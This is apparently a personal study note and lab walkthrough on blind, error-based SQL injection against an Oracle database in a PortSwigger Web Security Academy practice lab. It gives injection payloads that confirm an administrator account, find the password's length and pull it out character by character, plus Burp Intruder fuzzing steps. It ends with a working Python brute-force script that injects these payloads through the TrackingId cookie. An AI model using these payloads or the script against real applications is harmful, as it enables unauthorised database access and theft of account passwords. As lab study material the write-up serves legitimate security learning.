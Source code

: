 # Blind SQL injection with conditional errors (ORACLE DB)

* For this case is really important to understand that, the only notice that we have to know if something has been introduce ok or not is if there is an error or not.

For the case that i was studying, i have tried to cause the error using SQL statement. However it was a oracle database, so,  i was able to retrieve useful information  using oracle commands

<mark style="color:orange;">**'||(select case when (1=2) then to\_char(1/0) else null end from dual)||'**</mark>

<figure><img src="../../../.gitbook/assets/sql-1.png" alt=""><figcaption></figcaption></figure>

If the statement is correct 1=1 we generate an error

<figure><img src="../../../.gitbook/assets/sql-correct.png" alt=""><figcaption></figcaption></figure>

if the statement is incorrect we do not generate any error

<figure><img src="../../../.gitbook/assets/sql2-imcorrect.png" alt=""><figcaption></figcaption></figure>

Then to enumerate the database lets see if administrator user exist:

`'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator')||'`

In this statement if username='administrator' is True the part of the instruction where the error exist will be invoque:\
`select case when (1=1) then to_char(1/0)`&#x20;

Otherwise, if username='administrator' doesn't exist it will not show any error

<figure><img src="../../../.gitbook/assets/sql-hard.png" alt=""><figcaption><p>Administrator user exist</p></figcaption></figure>

The next step is to try to obtain the password length, to do this we use the following command:

\
`'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator' and length(password)>=20)||'`

length(password)>$ we fuzz that statement and check the output, as we can see the error stop at line 21 it means that the password has a length of 20 characters. The next step is to detect the value of each position.

<figure><img src="../../../.gitbook/assets/sql-password length.png" alt=""><figcaption></figcaption></figure>

Enumerating username/password position character in oracle

USERNAME

`'||(select case when substr(username,1,1)='b' then to_char(1/0) else '' end from users where username='administrator')||'`

PASSWORD

`'||(select case when substr(password,1,1)='fuzzing' then to_char(1/0) else '' end from users where username='administrator')||'`

In this case the first field of the 20 characters password is "i" cause during the fuzzing attack it was the only character that return an error

<figure><img src="../../../.gitbook/assets/sql-oracle-password-first-position.png" alt=""><figcaption></figcaption></figure>

Creating a regex to add a column HTTP status (From Intruder)

<div>

<figure><img src="../../../.gitbook/assets/fetch-1.png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../../../.gitbook/assets/fetch-2.png" alt=""><figcaption></figcaption></figure>

</div>

Attacking using cluster bomb

In the cluster bomb attack the main difference is that we select two variables to modify so for this context we can fuzz in the password from 0-9 and in character from 0-9 and A-Z (This case we know that password doesn't have symbols cause its a practice scenario).

<figure><img src="../../../.gitbook/assets/cluster-bomb-1.png" alt=""><figcaption></figcaption></figure>

Python script for sql injection error status

```
from pwn import *
import requests,signal,time,pdb,sys,string

def def_handler(sig, frame):
    print("*\n\n [!] Saliendo...\n")
    sys.exit()

#ctrl+c

signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a0100f6038fd3cc8220061d00df00c4.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():
    password = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Password")

    for position in range(1,21):
        for character in characters:
            cookies = {
                'TrackingId': "PCys85TEo6qFVYqY'||(select case when substr(password,%d,1)='%c' then to_char(1/0) else '' end from users where username='administrator')||'" % (position, character),
                'session': 'wP97ksPRh3hrzHmHOSaSEb0LRzo5kLON'
            }
            p1.status(cookies['TrackingId'])
            r = requests.get(main_url, cookies = cookies)

            if r.status_code == 500:  ###We put error status here
                password += character
                p2.status(password)
                break
makeRequest()
```


